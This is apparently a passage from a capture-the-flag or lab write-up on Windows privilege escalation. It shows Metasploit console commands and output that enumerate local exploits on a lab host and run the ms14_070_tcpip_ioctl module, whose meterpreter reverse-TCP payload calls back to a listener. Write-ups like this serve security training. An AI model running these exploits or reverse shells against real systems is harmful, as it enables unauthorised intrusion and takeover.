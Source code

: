 Now that we have a stable working meterpreter session. We’re running with low privileges, so we’ll need to escalate our privileges to SYSTEM.

Now, I backgrouded the `meterpreter` session, to look for a `Local Exploit suggestor` in msfconsole to check for local vulnerabiltites.

```
msf6 post(multi/recon/local_exploit_suggester) > options

Module options (post/multi/recon/local_exploit_suggester):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   SESSION                           yes       The session to run this module on
   SHOWDESCRIPTION  false            yes       Displays a detailed description for the available exploits

msf6 post(multi/recon/local_exploit_suggester) > set session 1
session => 1
msf6 post(multi/recon/local_exploit_suggester) > run

[*] 10.10.10.14 - Collecting local exploits for x86/windows...
[*] 10.10.10.14 - 38 exploit checks are being tried...
msf6 post(multi/recon/local_exploit_suggester) > run
[+] 10.10.10.14 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
[+] 10.10.10.14 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.14 - exploit/windows/local/ms14_070_tcpip_ioctl: The target appears to be vulnerable.
[+] 10.10.10.14 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.14 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
[+] 10.10.10.14 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 10.10.10.14 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[*] Post module execution completed
```

Now, I used the `ms14_070_tcpip_ioctl` exploit.

```
msf6 post(multi/recon/local_exploit_suggester) > use exploit/windows/local/ms14_070_tcpip_ioctl
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
[*] Exploit completed, but no session was created.
msf6 exploit(windows/local/ms14_070_tcpip_ioctl) > set session 1
session => 1
msf6 exploit(windows/local/ms14_070_tcpip_ioctl) > run

[*] Started reverse TCP handler on 192.168.1.8:4444 
[*] Storing the shellcode in memory...
[*] Triggering the vulnerability...
[*] Checking privileges after exploitation...
[+] Exploitation successful!
[*] Exploit completed, but no session was created.
```
